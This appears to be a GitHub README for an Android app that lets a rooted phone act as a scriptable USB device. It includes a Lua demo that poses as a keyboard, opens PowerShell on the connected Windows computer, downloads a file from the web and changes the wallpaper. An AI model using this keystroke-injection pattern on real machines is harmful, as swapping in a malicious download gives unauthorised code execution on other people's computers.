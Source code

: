 # Android USB Script

**Use at your own risk. For educational purposes only.**

An Android app that provides a simple Lua interface for enumerating and interfacing
with arbitrary composite USB devices.

**Root access is required.**

## [Demonstration](https://streamable.com/oeyrik)

The best way to explain what this app does is with a code example. The following script
does the following when interpreted by this app:

1. Configures your phone to become a USB keyboard
2. Sends a series of key presses to the computer your phone is plugged in to, changing
its wallpaper

```lua
-- create a USB composite device composed of a single keyboard
usb = luausb.create({ id = 0, type = "keyboard" })
kb = usb.dev[1]

local file = "https://i.redd.it/ur1mqcbpxou51.png"

while true do
    -- wait for the phone to be plugged into a computer
    while not kb.test() do usb.delay(1000) end

    usb.delay(1000)

    kb.press_keys(kb.LSUPER, kb.R)  -- open the Windows run dialog
    usb.delay(2000)                 -- wait 2 seconds
    kb.send_string("powershell\n")  -- pop open a powershell window
    usb.delay(2000)

    -- enter a script that changes your wallpaper
    kb.send_string("[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;" ..
            "(new-object System.Net.WebClient).DownloadFile('" .. file .. "',\"$Env:Temp\\b.jpg\");\n" ..
            "Add-Type @\"\n" ..
            "using System;using System.Runtime.InteropServices;using Microsoft.Win32;namespa" ..
            "ce W{public class S{ [DllImport(\"user32.dll\")]static extern int SystemParamet" ..
            "ersInfo(int a,int b,string c,int d);public static void SW(string a){SystemParam" ..
            "etersInfo(20,0,a,3);RegistryKey c=Registry.CurrentUser.OpenSubKey(\"Control Pan" ..
            "el\\\\Desktop\",true);c.SetValue(@\"WallpaperStyle\", \"2\");c.SetValue(@\"Tile" ..
            "Wallpaper\", \"0\");c.Close();}}}\n" ..
            "\"@\n" ..
            "[W.S]::SW(\"$Env:Temp\\b.jpg\")\n" ..
            "exit\n")

    -- wait for the phone to be unplugged
    while kb.test() do usb.delay(1000) end
end
```

## Requirements
**This app will not work on every Android device.** If your Android OS has Linux Kernel
version >= 3.18 and is compiled with configfs and f_hid, then the app can try to create usb
gadgets.

New demo applications can be added to `assets/scripts`. The API is pretty much self-documenting,
just look at the existing demos to get a feel for how the API works.

## Third-party
- [libsuperuser](https://github.com/Chainfire/libsuperuser)
- [LuaJ](http://www.luaj.org/luaj/3.0/README.html)
